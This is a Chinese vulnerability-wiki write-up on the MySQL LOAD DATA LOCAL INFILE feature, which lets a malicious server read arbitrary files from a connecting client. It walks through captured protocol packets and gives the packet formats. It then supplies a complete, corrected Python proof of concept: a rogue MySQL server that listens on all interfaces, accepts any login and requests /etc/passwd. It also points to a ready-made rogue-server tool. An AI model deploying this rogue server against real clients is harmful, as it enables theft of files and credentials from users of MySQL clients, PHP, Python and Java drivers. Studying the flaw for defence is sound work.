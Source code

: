 MySQL LOAD DATA 读取客户端任意文件
==================================

一、漏洞简介
------------

### LOAD DATA INFILE

mysql的LOAD DATA
INFILE语句主要用于读取一个文件的内容并且存入一个表中。通常有两种用法，分别是：

    load data infile "/etc/passwd" into table TestTable fields terminated by '分隔符';
    load data local infile "/etc/passwd" into table TestTable fields terminated by '分隔符';

第一个语句是读取服务器上的/etc/passwd文件并存入TestTable表中，第二个语句是读取客户端本地的/etc/passwd文件并存入TestTable表中。我们要利用的是LOAD
DATA LOCAL INFILE。官方文档中也提出了这个问题（PS：Google翻译的不是很准确）

![](/Users/aresx/Documents/VulWiki/.resource/MySQLLOADDATA读取客户端任意文件/media/rId23.png)

二、漏洞影响
------------

三、复现过程
------------

### 分析数据包

测试环境：MacOS 10.14Mysql 5.7.21

使用tcpdump抓取3306端口的数据包

![](/Users/aresx/Documents/VulWiki/.resource/MySQLLOADDATA读取客户端任意文件/media/rId27.png)

#### 1.服务器向客户端发送greeting问候包，包含服务端banner信息

![](/Users/aresx/Documents/VulWiki/.resource/MySQLLOADDATA读取客户端任意文件/media/rId29.png)

#### 2.客户端发送登陆请求包，包含用户名密码，以及含有LOAD DATA LOCAL选项的客户端banner信息。

![](/Users/aresx/Documents/VulWiki/.resource/MySQLLOADDATA读取客户端任意文件/media/rId31.png)

#### 3.然后是客户端初始化的一些查询，比如select database(); select @\@version\_comment;

![](/Users/aresx/Documents/VulWiki/.resource/MySQLLOADDATA读取客户端任意文件/media/rId33.png)

#### 4.找到我们执行的LOAD DATA INFILE数据包，第一个包看起来比较正常，是客户端发起的Request Que

![](/Users/aresx/Documents/VulWiki/.resource/MySQLLOADDATA读取客户端任意文件/media/rId35.png)

#### 5.但是紧接着服务器返回了一个包含刚才所要LOAD DATA INFILE的文件名/Users/smi1e/Desktop/test.txt的数据包。

![](/Users/aresx/Documents/VulWiki/.resource/MySQLLOADDATA读取客户端任意文件/media/rId37.png)

#### 6.然后客户端向服务端发送了/Users/smi1e/Desktop/test.txt文件的内容：

![](/Users/aresx/Documents/VulWiki/.resource/MySQLLOADDATA读取客户端任意文件/media/rId39.png)

如果我们在客户端发送查询之后，返回一个Response
TABULAR数据包，即服务端向客户端发送了文件名的数据包，如果我们把这个文件名设置成我们想要读取的文件，那么我们就可以读取客户端的任意文件了。正如官方文档所写的
In theory, a patched server could be built that would tell the client
program to transfer a file of the server\'s choosing rather than the
file named by the client in the [LOAD
DATA](https://dev.mysql.com/doc/refman/8.0/en/load-data.html)
statement.也就是说想要读取哪个文件是服务端说了算，跟客户端所request的文件名没有关系。

最重要的是伪造的服务端可以在任何时候回复一个file-transfer
请求，不一定非要是在客户端发送LOAD DATA LOCAL数据包的时候。不过如果想要利用此特性，客户端必须具有CLIENT\_LOCAL\_FILES即(Can use
LOAD DATA
LOCAL)属性。如果没有的话，就要在连接mysql的时候加上\--enable-local-infile。

### 搭建MySQL服务端

主要分为

-   向 MySQL Client 发送Server Greeting
-   等待 Client 端发送一个Query Package
-   回复一个file transfer请求

我们需要知道如何构造File Transfer和Server
Greeting数据包，这些包的格式都可以在 MySQL 的官方文档上找到。

File Transfer数据包格式：Protocol::LOCAL\_INFILE\_Request

并且我们需要等待一个来自 Client
的查询请求，才能回复这个读文件的请求。不过我们在上面看到客户端在连接成功后会自动的做一些初始化的查询。

![](/Users/aresx/Documents/VulWiki/.resource/MySQLLOADDATA读取客户端任意文件/media/rId42.png)

官方也给了exmaple

    0c 00 00 01 fb 2f 65 74    63 2f 70 61 73 73 77 64    ...../etc/passwd

数据包的内容其实是从\\xfb开始的，这个字节代表包的类型，后面紧跟要读取的文件名。前面的0x0c是数据包的长度（从
\\xfb 开始计算），长度后面的三个字节\\x00\\x00\\x01是数据包的序号。

![](/Users/aresx/Documents/VulWiki/.resource/MySQLLOADDATA读取客户端任意文件/media/rId43.png)

Greeting数据包格式：官方文档，如果不会构造可以直接拷贝抓到的数据包然后改一下长度、文件名之类的。

这里直接拷贝大佬归纳的格式。

    '\x0a',  # Protocol
    '6.6.6-lightless_Mysql_Server' + '\0',  # Version
    '\x36\x00\x00\x00',  # Thread ID
    'ABCDABCD' + '\0',  # Salt
    '\xff\xf7',  # Capabilities, CLOSE SSL HERE!
    '\x08',  # Collation
    '\x02\x00',  # Server Status
    "\x0f\x80\x15", 
    '\0' * 10,  # Unknown
    'ABCDABCD' + '\0',
    "mysql_native_password" + "\0"

### poc

来源于https://www.vesiluoma.com/abusing-mysql-clients/的POC，测了一个多小时都没成功，最后发现里面
\#3payload写错了，我给改了下。

    #!/usr/bin/python
    #coding: utf8
    import socket

    # linux :
    #filestring = "/etc/passwd"
    # windows:
    #filestring = "C:\Windows\system32\drivers\etc\hosts"
    HOST = "0.0.0.0" # open for eeeeveryone! ^_^
    PORT = 3306
    BUFFER_SIZE = 1024

    #1 Greeting
    greeting = "\x5b\x00\x00\x00\x0a\x35\x2e\x36\x2e\x32\x38\x2d\x30\x75\x62\x75\x6e\x74\x75\x30\x2e\x31\x34\x2e\x30\x34\x2e\x31\x00\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00"
    #2 Accept all authentications
    authok = "\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00"

    #3 Payload
    #数据包长度
    payloadlen = "\x0c"
    padding = "\x00\x00"
    payload = payloadlen + padding +  "\x01\xfb\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen(1)

    while True:
        conn, addr = s.accept()

        print 'Connection from:', addr
        conn.send(greeting)
        while True:
            data = conn.recv(BUFFER_SIZE)
            print " ".join("%02x" % ord(i) for i in data)
            conn.send(authok)
            data = conn.recv(BUFFER_SIZE)
            conn.send(payload)
            print "[*] Payload send!"
            data = conn.recv(BUFFER_SIZE)
            if not data: break
            print "Data received:", data
            break
        # Don't leave the connection open.
        conn.close()

![](/Users/aresx/Documents/VulWiki/.resource/MySQLLOADDATA读取客户端任意文件/media/rId45.png)

ps: 实测 下面这个项目比较好用，上面的poc还需要改长度和内容的16进制值Github还有一个项目：https://github.com/allyshka/Rogue-MySql-Server

该特性适用于：MySQL Client、 PHP with mysqli、Python with
MySQLdb、Python3 with mysqlclient、Java with JDBC Driver等。
